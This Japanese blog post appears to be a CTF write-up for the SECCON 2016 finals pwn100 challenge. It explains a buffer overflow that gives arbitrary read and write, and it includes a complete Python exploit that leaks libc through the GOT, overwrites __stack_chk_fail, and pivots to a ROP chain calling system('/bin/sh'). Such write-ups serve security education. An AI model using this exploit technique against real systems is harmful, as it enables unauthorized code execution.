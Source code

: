 ```yaml
---
layout: post
title: SECCON 2016 FINALS writeup
---
```


elfでSECCON決勝に参加していました.
結果は23/24でしんどかったです.

サーバー参のwriteup欲しいけど見つからないので誰か教えてください...

pwn100しか解けなかったけどwriteup.

![](https://tsunpoko.github.io/images/seccon2016finals_enquete.png)

2回の入力がある.
1回目の入力でBOFがあり,

{% highlight nasm %}
 80485ed:	e8 40 00 00 00       	call   8048632 <getaline>
 80485f2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80485f5:	89 44 24 0c          	mov    DWORD PTR [esp+0xc],eax
 80485f9:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80485fc:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048600:	c7 44 24 04 bb 87 04 	mov    DWORD PTR [esp+0x4],0x80487bb
 8048607:	08 
 8048608:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 804860f:	e8 bc fd ff ff       	call   80483d0 <dprintf@plt>
{% endhighlight %}

{% highlight shell %}
gdb-peda$ x/40xw 0xffffd3cc
0xffffd3cc:	0x41414141	0x00000000	0x00000000	0xffffd498
0xffffd3dc:	0xf7e41b74	0xf7fb93cc	0xffffd3fc	0x00000000
0xffffd3ec:	0xf7fb9000	0x00000000	0xf7fb9000	0x00000000
0xffffd3fc:	0x0622705a	0xffffd498	0xf7ff04c0	0xf7fb9000
0xffffd40c:	0xdf866000	0x00000000	0xf7e42016	0xffffd498
0xffffd41c:	0x0804859a	0x08048745	0xffffd44c	0xffffd44
{% endhighlight %}


{% highlight c %}
dprintf("Hi, %s\n%s\n>>", 0xffffd3cc, 0x08048745);
                         [user input]
{% endhighlight %}

getaline()直後に*(ebp+0x8)をeaxに入れて, それをdprintfの第3引数に指定しているのでここで任意のアドレスが読めます.

この場合*(ebp+0x8)は0xffffd420 -> 0x08048745です.

0xffffd420 - 0xffffd3cc = 84

{% highlight nasm %}
 8048614:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048617:	89 04 24             	mov    DWORD PTR [esp],eax
 804861a:	e8 13 00 00 00       	call   8048632 <getaline>
{% endhighlight  %}

2回目の入力で*(ebp+0xc)を引数としてgetaline()を呼んでいるので, ここを任意のアドレスにすればそこに書き込みが出来そうです.

攻撃の流れとして, 3ステージに分かれていて

[stage1]
任意のアドレスが読めるのでgotの値を呼んでinformation leakします.
ここで必ず__stack_chk_fail()に引っかかるので, __stack_chk_fail@gotをmainに向けます.

[stage2]
任意のアドレスが読めますが, もうlibcはleakしたので適当で良いです.
書き込み先をbssにして, rop chainを仕込みます.
__stack_chk_fail@gotはまだmainなので再度ret2vuln.

[stage3]
読むアドレスは適当です.
__stack_chk_fail@gotにleave; ret;のrop gadgetを書き込みます.
この際にebpには, bss - 4のアドレスを積んでおきstack pivotでespをrop chainが積まれているbss領域に向けます.
__stack_chk_fail()に引っかかるので, rop発動で終了です.


以下exploit

{% highlight python %}
from No___Op import *

if len(sys.argv) > 1:
    target = '10.100.6.1:28353'
    offset = {
        'rand': 0x0034010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }


else:
    target = 'localhost:4444'
    offset = {
        'rand': 0x34010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }

c =  Pwning( target )

got_chkfail = 0x804a018
addr_bss = 0x0804a034 + 0x800
addr_main = 0x0804852d
got_rand = 0x804a028
leave_ret = 0x80485c0

########stage1
pay1  = 'a' * 84
pay1 += p32(got_rand)
pay1 += p32(got_chkfail)

pay2 = p32(addr_main)

c.sendall(pay1)
c.sendall(pay2)

info('stage1')

c.read_until('a' * 84)

c.recv(9)

libc_rand = u32(c.recv(4))

libc_base = libc_rand - offset['rand']
libc_system = libc_base + offset['system']
libc_binsh = libc_base + offset['/bin/sh']

succ(hex(libc_base))
succ(hex(libc_system))
succ(hex(libc_binsh))

########stage2

pay1  = 'b' * 84
pay1 += p32(libc_binsh)
pay1 += p32(addr_bss)

pay2  = ''
pay2 += p32(libc_system)
pay2 += 'kasu'
pay2 += p32(libc_binsh)
pay2 += 'c' * (64 - len(pay2))
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage2')


########stage3

pay1  = 'd' * 76
pay1 += p32(addr_bss - 4) #ebp
pay1 += p32(leave_ret) #eip
pay1 += p32(libc_binsh)
pay1 += p32(got_chkfail)

pay2  = p32(leave_ret)
pay2 += 'BBBB'
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage3')

c.shell()
{% endhighlight %}

* * *

完全に知能不足を感じ正直悔しい.
